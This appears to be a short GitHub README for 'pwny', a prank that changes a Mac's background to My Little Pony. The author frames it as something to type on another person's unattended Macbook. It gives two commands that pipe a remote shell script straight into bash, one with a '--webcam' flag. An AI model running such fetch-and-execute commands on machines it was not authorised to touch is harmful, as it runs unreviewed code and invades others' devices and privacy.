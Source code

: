 # pwny
Don't let me touch your Macbook, or I'll type in:
```
curl -S https://raw.githubusercontent.com/jeversmann/pwny/master/pwn.sh | bash
```

## Modes
If the My Little Pony background isn't enough, there are some flags to try:
```
curl -S https://raw.githubusercontent.com/jeversmann/pwny/master/pwn.sh | bash -s -- --webcam
```
